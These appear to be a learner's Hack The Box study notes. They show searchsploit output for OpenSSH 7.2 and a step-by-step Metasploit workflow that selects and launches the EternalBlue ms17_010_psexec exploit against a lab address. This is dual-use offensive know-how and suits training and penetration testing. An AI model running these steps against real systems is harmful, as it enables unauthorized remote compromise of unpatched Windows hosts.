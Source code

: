 
Use `searchsploit`
```shell-session
Hussware0@htb[/htb]$ sudo apt install exploitdb -y
```

```shell-session
searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)
OpenSSH 7.2 - Denial of Service
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection
OpenSSH 7.2p2 - Username Enumeration
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading
OpenSSH < 7.7 - User Enumeration (2)
OpenSSHd 7.2p2 - Username Enumeration    
```

____

# Metasploit

Start
```shell-session
msfconsole
```

Search for a Vulnerability
```
search exploit eternalblue
```

`check` if the server is vulnerable to this vulnerability
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check
```

Use exploit, if you need to specify options, check with `show options`, which are available
```shell-session
use exploit/windows/smb/ms17_010_psexec
```

`set` Option when in `show option`its says required
```shell-session
set RHOSTS 10.10.10.40
```

`exploit` or `run` to start the exploit



